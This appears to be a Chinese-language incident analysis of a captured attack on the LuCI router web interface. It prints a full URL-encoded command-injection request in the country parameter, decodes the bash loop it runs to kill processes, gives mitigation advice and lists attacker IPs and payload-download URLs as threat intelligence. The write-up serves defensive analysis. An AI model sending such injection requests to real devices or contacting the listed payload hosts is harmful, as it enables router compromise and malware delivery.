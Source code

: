 - 考虑增强Web服务的安全配置，比如限制对外部请求的敏感操作。  
  
- 如有必要，与网络安全专家或设备供应商联系，报告此安全事件。  
  
  
**/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60for+proc_dir+in+%2Fproc%2F%5B0-9%5D%2A%3B+do+pid%3D%24%7Bproc_dir%23%23%2A%2F%7D%3B+buffer%3D%24%28cat+%22%2Fproc%2F%24pid%2Fmaps%22%29%3B+if+%5B+%22%24%7B%23buffer%7D%22+-gt+1+%5D%3B+then+if+%5B+%22%24%7Bbuffer%23%2A%22%2Flib%2F%22%7D%22+%3D+%22%24buffer%22+%5D+%26%26+%5B+%22%24%7Bbuffer%23%2A%22dvrLocker%22%7D%22+%3D+%22%24buffer%22+%5D%3B+then+kill+-9+%22%24pid%22%3B+fi%3B+fi%3B+done%60)**  
  
这段命令字符串展示了更为复杂的一种攻击尝试，目标依然是通过LuCI Web界面的命令注入漏洞，不过这次的命令旨在查找并终止特定的进程。解析如下：  
- 命令的基本结构仍然是通过LuCI的Web接口进行，利用国家设置变更的表单提交来执行恶意命令。  
  
- 解码后的命令内容为一个Bash循环脚本，其主要目的似乎是查找并杀死名为dvrLocker  
的特定进程（这里假设dvrLocker  
是一个示例进程名，实际意义依据上下文可能有所不同）。命令大致步骤如下：  
  
```
for proc_dir in /proc/[0-9]*; do
    pid=${proc_dir##*/}
    buffer=$(cat "/proc/$pid/maps")
    if [ "${#buffer}" -gt 1 ]; then
        if [ "${buffer##*/lib/}" = "$buffer" ] && [ "${buffer##*dvrLocker}" = "$buffer" ]; then
            kill -9 "$pid"
        fi
    fi
done
```  
- 确认buffer中不包含/lib/路径，这可能是在尝试排除系统核心库关联的进程，以减少误伤。  
  
- 确认buffer中不包含字符串dvrLocker，意味着只有当某进程的内存映射信息中没有提到dvrLocker时，才会进入下一个条件判断。这里可能存在逻辑错误，正确的意图可能是检查是否包含dvrLocker来定位目标进程。  
  
- 如果以上条件都满足（尽管第二个条件逻辑看似反向，可能需修正以正确匹配目标进程），则使用kill -9强制终止该进程。  
  
- 遍历/proc目录下所有表示进程的子目录（/proc/[0-9]*），获取每个进程的PID（进程ID）。  
  
- 对每个进程，读取其内存映射信息（/proc/$pid/maps），存储在buffer变量中。  
  
- 检查buffer是否为空，非空则继续。  
  
- 使用字符串截取判断条件，检查buffer内容：  
  
- 此脚本的最终目的可能是清除或干扰名为dvrLocker的特定软件或恶意程序的运行实例，但实际执行效果需视脚本逻辑准确性及目标环境而定。  
  
遇到此类命令注入攻击，应立即采取措施确保系统安全，包括但不限于：  
- 查看系统日志，确认是否有成功执行的迹象。  
  
- 确认并升级系统及应用程序的安全补丁。  
  
- 评估并加固Web服务的安全配置，避免类似的命令注入漏洞。  
  
- 监控网络流量，阻止与恶意源头的进一步通信。  
  
- 如怀疑系统已遭入侵，应进行彻底的安全审计和必要的数据恢复操作。  
  
威胁情报  
```
103.149.28.141
66.187.6.203
94.156.71.83
66.187.6.155
45.148.10.78
185.191.127.212 
45.148.10.174
84.54.51.37
31.220.1.83
http://103.149.28.141/t
http://66.187.6.203/shk
http://94.156.71.83/r
http://66.187.6.155/shk
http://45.148.10.78/shk
```